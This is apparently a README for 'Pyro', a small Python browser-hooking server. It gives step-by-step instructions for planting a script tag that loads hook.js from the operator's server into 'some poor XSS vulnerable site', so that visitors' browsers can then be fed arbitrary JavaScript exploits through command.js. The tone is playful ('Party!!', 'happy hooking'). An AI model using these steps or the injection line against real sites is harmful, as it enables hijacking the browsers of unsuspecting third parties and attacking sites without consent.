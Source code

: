 Pyro -- A simple browser hooking server in python

Pyro was designed to be the simplest possible hooking server
to serve as a demonstation and a starting point for more serious
developement.

To start using Pyro you require no external packages! Most modern
python installations should work fine!

To run:
	./SimpleServer.py
	
You may want to edit the 'command.js' as it will not work until it has
a different md5 hash from when the server started.
So 

Step 1)

	./SimpleServer.py
	
Step 2)

	inject '<script src='http://yourserver.domain:port/hook.js'></script>
	
into some poor XSS vulnerable site, and have it run in a browser

Step 3)

while the client asks for commands

	edit command.js with your favourite js exploit
	
Step 4)

	Party!!
	

Make sure that the hook.js and command.js is in the same path as Pyro.py
and if you'd like to use the hooktest.js make sure to place it there too.

Enjoy! and happy hooking!
k3170makan
